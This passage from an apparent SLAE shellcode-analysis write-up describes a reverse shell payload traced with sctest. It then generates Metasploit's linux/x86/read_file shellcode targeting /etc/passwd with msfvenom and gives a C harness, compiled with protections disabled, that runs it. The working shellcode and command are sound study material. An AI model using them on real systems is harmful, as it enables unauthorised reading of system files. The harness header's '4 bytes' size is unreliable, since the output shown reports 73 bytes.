 Sctest is used to emulate the specific instructions in the shellcode visually displaying the execution of the reverse shell payload. The parameters included in the Msfvenom payload are all visibly shown, the listening host, listening port and <code class="language-plaintext highlighter-rouge">/bin/sh</code> shell.

The required syscalls are shown:

* socket
* dup2
* connect
* execve

#### 3rd Shellcode (linux/x86/read_file)
--------------

The Read File payload reads a chosen file as specified, requiring 2 arguments, the file descriptor to write the output to (standard output), and the <code class="language-plaintext highlighter-rouge">PATH</code> to the file:

```bash
osboxes@osboxes:~/Downloads/SLAE$ msfvenom -p linux/x86/read_file PATH=/etc/passwd --arch x86 --platform linux -f c
No encoder or badchars specified, outputting raw payload
Payload size: 73 bytes
Final size of c file: 331 bytes
unsigned char buf[] = 
"\xeb\x36\xb8\x05\x00\x00\x00\x5b\x31\xc9\xcd\x80\x89\xc3\xb8"
"\x03\x00\x00\x00\x89\xe7\x89\xf9\xba\x00\x10\x00\x00\xcd\x80"
"\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\xb8"
"\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xc5\xff\xff"
"\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x00";
```

A C program scripted with the newly generated shellcode:

```c
/**
* Filename: readfile_shellcode.c
* Author: h3ll0clar1c3
* Purpose: Read a specified file on the local host  
* Compilation: gcc -fno-stack-protector -z execstack -m32 readfile_shellcode.c -o readfile  
* Usage: ./readfile
* Shellcode size: 4 bytes
* Architecture: x86
**/

#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\xeb\x36\xb8\x05\x00\x00\x00\x5b\x31\xc9\xcd\x80\x89\xc3\xb8"
"\x03\x00\x00\x00\x89\xe7\x89\xf9\xba\x00\x10\x00\x00\xcd\x80"
"\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\xb8"
"\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xc5\xff\xff"
"\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x00";

int main()
{
        printf("Shellcode length:  %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```
